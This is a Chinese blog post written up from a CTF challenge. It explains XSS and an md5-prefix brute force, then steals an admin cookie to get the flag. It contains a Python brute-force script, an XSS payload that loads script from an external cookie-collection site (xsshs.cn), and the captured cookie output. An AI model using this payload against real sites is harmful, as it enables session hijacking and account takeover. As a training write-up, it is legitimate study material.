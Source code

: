 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      XSS攻击--获取cookie  # 标题 
subtitle:   跨站脚本攻击   #副标题
date:       2020-03-14              # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - XSS  
    - Web
    
---
```


## 原理:

跨站脚本攻击是指恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。

xss漏洞通常是通过php的输出函数将javascript代码输出到html页面中，通过用户本地浏览器执行的，所以xss漏洞关键就是寻找参数未过滤的输出函数。




## 题目:
Leave a message:（                  ）

substr(md5('       '),0,6) === '51a081'



## 考察点：

**1.XSS攻击获取cookie**

**2.md5截断绕过**

## 知识点：

**实例**

从字符串中返回 "world"：

``` php
<?php
echo substr("Hello world",6);
?>
```

语法：`substr(string,start,length)` 

**start**
             必需。规定在字符串的何处开始。
             正数 - 在字符串的指定位置开始
             负数 - 在从字符串结尾的指定位置开始
              0 - 在字符串中的第一个字符处开始
**length**
             可选。规定要返回的字符串长度。默认是直到字符串的结尾。
             正数 - 从 start 参数所在的位置返回
             负数 - 从字符串末端返回


## 解题过程：

**1.** 首先分析页面代码，发现留言框里面可能出现xss漏洞，然后我发现要想成功插入留言内容，必须需要满足`substr(md5('       '),0,6) === '51a081' `的条件，此条代码的含义是括号中的字符串的md5值前六位为`51a081`，可以通过python脚本进行字典爆破。

``` python
import hashlib
for i in range (100000000):
    a=str(i)
    md5=hashlib.md5(a.encode('utf-8')).hexdigest()
    if md5[0:6]=='51a081':
        break
print (a)

```

得到结果：`252192`

**2.** 允许插入的条件满足了，然后就是利用[XSS平台](https://xsshs.cn/)进行获取`cookie`。先在XSS平台，创建项目，选取默认设置即可。然后将项目后的XSS代码，`<sCRiPt/SrC=//xsshs.cn/PArz>`插入留言框，等待几分钟，发现XSS平台已经得到了管理员的`cookie`。

---
location : http://web/usermessages/1584098792-443ed1dd377f4a44f536c2830eb8f606.html
toplocation : http://web/usermessages/1584098792-443ed1dd377f4a44f536c2830eb8f606.html
cookie : token=a9011a0e551f181c1c526881befac44d
opener : 

---

**3.**  将cookie复制下来，用菜刀进行登录admin.php界面，拿到flag！






[参考链接（一）--XSS简介](https://www.jianshu.com/p/4fcb4b411a66)

[参考链接（二）--XSS平台的使用](https://www.sohu.com/a/111617739_458138)

## 谢谢您的查阅，欢迎来访！
